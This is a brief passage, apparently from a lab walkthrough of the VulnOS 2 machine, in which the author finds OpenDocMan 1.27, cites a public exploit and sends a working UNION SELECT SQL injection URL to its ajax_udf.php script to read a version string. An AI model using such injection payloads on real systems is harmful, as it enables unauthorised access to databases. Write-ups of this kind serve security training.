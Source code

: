 ![](vulnos_2_3.png)

![](vulnos_2_4.png)

Logging in with the credentials, I noticed that it is an installation of OpenDocMan 1.27, which contains a public exploit [https://www.exploit-db.com/exploits/32075/](https://www.exploit-db.com/exploits/32075/).

Let us take advantage of that.

Trying `http://192.168.1.100/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9` tells us that the PHP version is **5.5.47-0ubuntu0.14.04.1**.
